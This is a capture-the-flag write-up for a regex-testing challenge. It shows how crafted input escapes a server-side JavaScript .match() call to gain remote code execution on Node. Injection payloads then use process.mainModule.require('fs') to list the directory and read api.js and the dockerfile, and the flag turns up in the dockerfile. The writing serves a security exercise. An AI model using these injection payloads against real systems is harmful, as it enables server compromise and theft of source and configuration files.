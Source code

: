 # writup for CSREGEX challange
description:
```
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real world...

http://chal.cybersecurityrumble.de:9876

Author: molatho|nviso

(72 solves)
```

## how we got to the solution

we are greeted with a regex tesiting page, In the main box you can enter a regular expression, which will be evaluated and the output will be shown in the bottom

```
'A regular expression (shortened as regex or regexp; also referred to as rational expression) is a sequence of characters that define a search pattern. Usually such patterns are used by string-searching algorithms for "find" or "find and replace" operations on strings, or for input validation. It is a technique developed in theoretical computer science and formal language theory.\n\nThe concept arose in the 1950s when the American mathematician Stephen Cole Kleene formalized the description of a regular language. The concept came into common use with Unix text-processing utilities. Different syntaxes for writing regular expressions have existed since the 1980s, one being the POSIX standard and another, widely used, being the Perl syntax.\n\nRegular expressions are used in search engines, search and replace dialogs of word processors and text editors, in text processing utilities such as sed and AWK and in lexical analysis. Many programming languages provide regex capabilities either built-in or via libraries.\n\nhttps://en.wikipedia.org/wiki/Regular_expression'.match(/<user input regex>/gi)
```
this gets transmtted and evaluated on the server. 
Which makes the task pretty obvious, lets escape the .match expression and have server side (remote) code execution


z'.match()/gi); <javascript code>;/
- the first part `z'.match()/gi);` completes the string so it doesnt error
- the end `;/` is to comment out the rest, `/gi`



so we have an RCE, what next?

"fetch is not defined" -- we are running on node and not a web browser

lets see what we can and cannot do:
- we cannot call require
- `child_process` and `fs` arent imported
- we can use `return` to get any data back from the server

thats not much, but we found that we can infact call require by using `process.mainModule.require`

so lets build a little script:
we can return the contents of the current directory with the fs module
```js
//code:
let files = [];
const fs = process.mainModule.require('fs');
fs.readdirSync(".").forEach(file => files.push(file) );
return files;

// exploit:
z'.match()/gi);let files = [];const fs = process.mainModule.require('fs'); fs.readdirSync(".").forEach(file =>  files.push(file) ); return files;/

// result:
{"result":[".dockerignore","api.js","csregex","dist","dockerfile","index.js","leftover.js","node_modules","package-lock.json","package.json","regexer.js","requests.log","simple-fs.js"]}

```



## solution
start reading the files to see if there is anything interesting in either one
```js
// code:
const fs = process.mainModule.require('fs');
const data = fs.readFileSync('api.js', 'utf8');
return(data);/

// exploit:
z'.match()/gi);const fs = process.mainModule.require('fs'); const data = fs.readFileSync('dockerfile', 'utf8'); return(data);/

//results
api.js: "var express = require('express');↵var router = express.Router();↵var RegexEr = require('./regexer')↵↵router.get('/regex/:pattern/:flags/:input', (req, res) => {↵    var params = {↵        pattern: req.params.pattern,↵        input: req.params.input,↵        flags: req.params.flags↵    };↵    try {↵        params.pattern = Buffer.from(req.params.pattern, 'base64').toString();↵        params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\n/gm, "").trim();↵        params.flags = Buffer.from(req.params.flags, 'base64').toString();↵        RegexEr.process(params.pattern, params.flags, params.input)↵            .then((result) => res.status(200).send({result: result}))↵            .catch((err) => res.status(400).send({ error: err.message }));↵↵    } catch (ex) {↵        console.error(ex);↵        res.status(400).send(JSON.stringify(ex));↵    }↵↵});↵↵module.exports = router;"
dockerfile:"from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]
```

sure enought dockerfile had the flag
```
RUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}'
```

